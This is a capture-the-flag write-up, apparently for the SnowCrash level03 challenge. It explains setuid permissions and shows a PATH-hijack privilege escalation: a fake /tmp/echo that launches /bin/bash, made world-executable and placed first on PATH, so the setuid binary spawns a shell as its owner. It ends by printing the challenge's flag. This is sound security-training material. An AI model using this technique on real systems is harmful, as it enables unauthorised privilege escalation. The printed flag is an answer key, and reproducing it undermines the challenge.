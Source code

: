 `ls -l` <br/>
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

`whoami` <br/>
level03

`groups` <br/>
level03 users

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

How can I make this program runs getflag ?

`./level03` <br/>
Exploit me

`strings level03` <br/>
...<br/>
/usr/bin/env echo Exploit me<br/>
...<br/>

https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line

`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`

If we make our fake echo function then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

`echo "/bin/bash" > /tmp/echo` <br/>
Create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission

`chmod 777 /tmp/echo` <br/>
otherwise the file is `-rw-rw-r-- 1 level03 level03 10 Sep 22 02:19 /tmp/echo` and flag03 can't execute it


`export PATH=/tmp:$PATH` <br/>
We added tmp directory at the start of the path. Do command `env` and see path went from: <br/>
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games<br/>
to <br/>
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games


`./level03`

You are now flag3 because you "opened" a new shell with the rights of flag03

`getflag` gives `qi0maab88jeaj46qoumi7maus`

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

